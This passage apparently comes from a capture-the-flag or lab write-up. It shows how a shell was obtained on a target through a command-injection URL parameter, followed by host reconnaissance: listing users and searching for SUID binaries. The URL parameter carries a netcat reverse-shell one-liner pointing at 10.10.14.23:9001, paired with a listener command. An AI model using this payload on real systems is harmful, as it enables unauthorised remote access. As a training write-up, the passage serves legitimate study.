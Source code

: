 ### Shell

Replace the command with :

```python
url = '/' + ExportFile + '?cmd='+ urllib.parse.quote("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.23 9001 >/tmp/f")
```

open a shell listener :

```bash
rlwrap nc -lvnp 9001
```

![Untitled](assets/user_shell.png)

### Post-Exploitation

### Host Reconnaissance

In the /home folder, there is only the user jack :

```bash
ls /home
jack
id jack
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
```

The current user “www-data” should not have sudoer rights. But there are some SUID binaries :

```bash
find / -perm -4000 -print 2> /dev/null
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/sbin/mount.nfs
/opt/manage/execute_query
```
